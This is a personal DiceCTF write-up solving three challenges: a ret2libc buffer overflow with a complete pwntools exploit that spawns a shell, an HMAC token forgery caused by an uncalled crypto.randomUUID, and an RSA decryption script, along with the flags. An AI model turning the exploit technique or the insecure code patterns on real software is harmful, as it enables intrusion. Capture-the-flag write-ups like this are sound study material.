



# DiceCTF

The CTF was pretty hard for me as it requires a lot more practice and knowledge in the field. I, however, performed slightly better than the last time I took part in a CTF by DiceGang (I solved 1 challenge last time and 3 this time :p) and feel okay with my performance. There's a lot more room for improvement and I hope to eventually rank higher and play with stronger teams. I ranked at **171** but could've done sligthly better if I spent a couple more hours on the crypto and web challenges, I think.





### Interview Opportunity (pwn, 108pts)

Surprisingly this is the first time I managed to solve a pwn challenge before a challenge in any other category, which is usually not the case. The challenge was a beginner-friendly buffer overflow exploit which explains why I managed to solve it first.

> Good luck on your interview...
>
> ```
> nc mc.ax 31081
> ```

We are provided with a challenge binary and a libc file. Analyzing the binary with IDA, we can retrieve the following pseudocode:

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf[10]; // [rsp+6h] [rbp-1Ah] BYREF
  const char **v5; // [rsp+10h] [rbp-10h]
  int v6; // [rsp+1Ch] [rbp-4h]

  v6 = argc;
  v5 = argv;
  env_setup(argc, argv, envp);
  printf(
    "Thank you for you interest in applying to DiceGang. We need great pwners like you to continue our traditions and com"
    "petition against perfect blue.\n");
  printf("So tell us. Why should you join DiceGang?\n");
  read(0, buf, 0x46uLL);
  puts("Hello: ");
  puts(buf);
  return 0;
}
```

Clearly, there is an overflow in the read call which we can leverage to control the instruction pointer. The checksec output for the challenge binary shows that there are no stack canaries to detect stack smashing and that PIE is disabled, which means the addresses of functions is fixed and does not change on different runs.



Firstly, we need to use the overflow to leak the address of any libc function to determine the base libc address. After that, we reset the instruction pointer to main and exploit the buffer overflow a second time (this time we know the base address of libc and so can determine the address of the `system` function to perform a system call). To leak the address, we can make a puts call and print the address of puts function.


**Finding the offset to gain control of Instruction Pointer**

```
Commands:

gdb-pwndbg ./interview-opportunity

> cyclic 100
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa

> r
<PASTE THE PREVIOUS OUTPUT AS INPUT HERE>

> cyclic -l aaja
34
```



We find that the offset to control the Instruction Pointer is `34` bytes of input.


**Leaking the address of a libc function**

We make use of `pwntools` - a very cool python library. Since the executable is not a PIE, we can make use of the `puts` function entries in the `.plt` and `.got` tables to leak it's address. We also need to make use of a gadget `pop rdi; ret` that can be found using famous tools like `ropper` or `RopGadget.py`. You can read more about gadget by searching about Return Oriented Programming. The gadget used above just places the address of the libc `puts` function present in the Global Offset Table into the `rdi` register which we then use as an argument in the `plt.puts` call, which ultimately returns back to main after leaking the address.

```python
offset = 34  # IP offset
pop_rdi = 0x401313

payload = flat({
  offset: [
    pop_rdi,
    elf.got.puts,
    elf.plt.puts,
    elf.symbols.main # this is so that we return back to main after using the original main call to leak puts address
  ]
})

# Send the payload
io.recv()
io.send(payload)
```


**Calculating offsets**

Once we have the offset/address of the `puts` function, we can use it to calculate the base address of libc. Once we have the libc base address, we use the already known offsets of `system` and `/bin/sh` to calculate their actual addresses. Once we have those addresses, we can pop the string `/bin/sh` into the `rdi` register and use it as an argument for `system` call.

```python
address = io.recvline().strip()

got_puts = unpack(address.ljust(8, b"\x00"))
info("leaked got_puts: %#x", got_puts)

libc_base = got_puts - libc.symbols['puts']
info("libc_base: %#x", libc_base)

# Add offsets to get system() and "/bin/sh" addresses
system_addr = libc_base + libc.symbols['system']
info("system_addr: %#x", system_addr)
bin_sh = libc_base + next(libc.search(b'/bin/sh'))
info("bin_sh: %#x", bin_sh)
```


**Exploit**

Here's the complete exploit script:

```python
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

# Specify your GDB script here for debugging
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())

# Set up pwntools for the correct architecture
exe = './interview-opportunity'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec = False)
# libc = ELF('/usr/lib/x86_64-linux-gnu/libc.so.6', checksec=False) # For local exploit testing
libc = ELF('./libc.so.6', checksec = False) # For remote exploit run
# Enable verbose logging so we can see exactly what is being sent (info/debug)
context.log_level = 'debug'

# Start program
io = start()

offset = 34  # IP offset
pop_rdi = 0x401313

payload = flat({
  offset: [
    pop_rdi,
    elf.got.puts,
    elf.plt.puts,
    elf.symbols.main
  ]
})

# Send the payload
print(io.recv())
print(payload)
io.send(payload)

repeated_main = io.recvuntil(b':')
io.recvline()
io.recvline()
address = io.recvline().strip()

got_puts = unpack(address.ljust(8, b"\x00"))
info("leaked got_puts: %#x", got_puts)

libc_base = got_puts - libc.symbols['puts']
info("libc_base: %#x", libc_base)

# Add offsets to get system() and "/bin/sh" addresses
system_addr = libc_base + libc.symbols['system']
info("system_addr: %#x", system_addr)
bin_sh = libc_base + next(libc.search(b'/bin/sh'))
info("bin_sh: %#x", bin_sh)

payload = flat({
  offset: [
    pop_rdi,
    bin_sh,
    system_addr
  ]
})

io.send(payload)
io.interactive()
```


**Flag:** `dice{0ur_f16h7_70_b347_p3rf3c7_blu3_5h4ll_c0n71nu3}`


### knock-knock (web, 107pts)

> Knock knock? Who's there? Another pastebin!!
>
> [knock-knock.mc.ax](https://knock-knock.mc.ax/)

We are provided with two challenge files.

**index.js**

```javascript
const crypto = require('crypto');

class Database {
  constructor() {
    this.notes = [];
    this.secret = `secret-${crypto.randomUUID}`;
  }

  createNote({ data }) {
    const id = this.notes.length;
    this.notes.push(data);
    return {
      id,
      token: this.generateToken(id),
    };
  }

  getNote({ id, token }) {
    if (token !== this.generateToken(id)) return { error: 'invalid token' };
    if (id >= this.notes.length) return { error: 'note not found' };
    return { data: this.notes[id] };
  }

  generateToken(id) {
    return crypto
      .createHmac('sha256', this.secret)
      .update(id.toString())
      .digest('hex');
  }
}

const db = new Database();
db.createNote({ data: process.env.FLAG });

const express = require('express');
const app = express();

app.use(express.urlencoded({ extended: false }));
app.use(express.static('public'));

app.post('/create', (req, res) => {
  const data = req.body.data ?? 'no data provided.';
  const { id, token } = db.createNote({ data: data.toString() });
  res.redirect(`/note?id=${id}&token=${token}`);
});

app.get('/note', (req, res) => {
  const { id, token } = req.query;
  const note = db.getNote({
    id: parseInt(id ?? '-1'),
    token: (token ?? '').toString(),
  });
  if (note.error) {
    res.send(note.error);
  } else {
    res.send(note.data);
  }
});

app.listen(3000, () => {
  console.log('listening on port 3000');
});
```

**Dockerfile**

```dockerfile
FROM node:17.4.0-buster-slim

RUN mkdir -p /app

WORKDIR /app

COPY package.json .

RUN yarn

COPY . .

USER node

CMD ["node", "index.js"]
```


The vulnerability lies in the implementation of the secret constructor:

```javascript
class Database {
  constructor() {
    this.notes = [];
    this.secret = `secret-${crypto.randomUUID}`;
  }
```

`crypto.randomUUID` is cryptographically secure and isn't known to be exploitable. However, here, the function isn't called and so there is actually no random number that is present in the secret. Instead, it's just the implementation of the function that becomes the secret. Here's what `this.secret` actually looks like:

```
secret-function randomUUID(options) {
  if (options !== undefined)
    validateObject(options, 'options');
  const {
    disableEntropyCache = false,
  } = options || {};

  validateBoolean(disableEntropyCache, 'options.disableEntropyCache');

  return disableEntropyCache ? getUnbufferedUUID() : getBufferedUUID();
}
```

And now we know what the secret is! Understanding the code a little, we notice that if we send a request to the specified URL with `id = 0` and token for this ID, we can retrieve the flag. This is a pretty cool challenge showcasing an IDOR Vulnerability. We can retrieve the token, and therefore the flag, using the following code:

```js
const crypto = require('crypto');

let secret = `secret-${crypto.randomUUID}`

const generateToken = (id) => {
  return crypto.createHmac('sha256', secret).update(id.toString()).digest('hex');
}

console.log(generateToken(0))

// https://knock-knock.mc.ax/note?id=0&token=7bd881fe5b4dcc6cdafc3e86b4a70e07cfd12b821e09a81b976d451282f6e264
```


**Flag: ** `dice{1_d00r_y0u_d00r_w3_a11_d00r_f0r_1_d00r}`


### baby-rsa (crypto, 117pts)

> I messed up prime generation, and now my private key doesn't work!

We are provided with two challenge files.

```python
# generate.py

from Crypto.Util.number import getPrime, bytes_to_long, long_to_bytes

def getAnnoyingPrime(nbits, e):
	while True:
		p = getPrime(nbits)
		if (p-1) % e**2 == 0:
			return p

nbits = 128
e = 17

p = getAnnoyingPrime(nbits, e)
q = getAnnoyingPrime(nbits, e)

flag = b"dice{???????????????????????}"

N = p * q
cipher = pow(bytes_to_long(flag), e, N)

print(f"N = {N}")
print(f"e = {e}")
print(f"cipher = {cipher}")
```

```
# data.txt

N = 57996511214023134147551927572747727074259762800050285360155793732008227782157
e = 17
cipher = 19441066986971115501070184268860318480501957407683654861466353590162062492971
```

The challenge is named `baby-rsa` but it felt quite far from an easy challenge because I only managed to solve it after reading inf writeups and a research paper...

You can find read about the attack in the attached [attack.pdf](./attack.pdf). <strike>I may or may not have bastardised some parts of their code present in the GitHub link in the pdf.</strike> The factoring of `n` can be done using `cado-nfs` or found online at `factor.db`.

```python
# exploit.py

from Crypto.Util.number import *

n = 57996511214023134147551927572747727074259762800050285360155793732008227782157
e = 17
c = 19441066986971115501070184268860318480501957407683654861466353590162062492971

p = 172036442175296373253148927105725488217
q = 337117592532677714973555912658569668821

assert(p * q == n)

def algorithm_1 ():
  phi = (p - 1) * (q - 1) // (e ** 4)
  g = 1

  while True:
    g += 1
    g_e = pow(g, phi, n)
    if g_e != 1:
      yield g_e

def rsa_crt_precompute (p, q):
  N = p * q
  pinv = pow(p, -1, q)
  qinv = pow(q, -1, p)
  Mp = qinv * q % N
  Mq = pinv * p % N
  return (Mp, Mq)

def rsa_crt_mod_exp (x, a, p, q, Mp, Mq):
  N = p * q
  xp = x % p
  xq = x % q
  ap = a % (p - 1)
  aq = a % (q - 1)
  yp = pow(xp, ap, p)
  yq = pow(xq, aq, q)
  y = (yp * Mp + yq * Mq) % N
  return y

for g_e in algorithm_1():
  Mp, Mq = rsa_crt_precompute(p, q)
  phi_hat = (p - 1) * (q - 1) // (e ** 4)
  d = pow(e, -1, phi_hat)
  g_e_torsion = rsa_crt_mod_exp(g_e, phi_hat, p, q, Mp, Mq)
  z = rsa_crt_mod_exp(c, d, p, q, Mp, Mq)
  ell = g_e_torsion

  for i in range(e ** 4):
    pt_hat = ell * z % n
    m = long_to_bytes(pt_hat)

    if b'dice' in m:
      print(m)
      exit()
    ell = ell * g_e_torsion % n
```


**Flag:** `dice{cado-and-sage-say-hello}`


Well, that's it for the writeup. That's all I managed to solve in the contest. Hope to do better next time :(
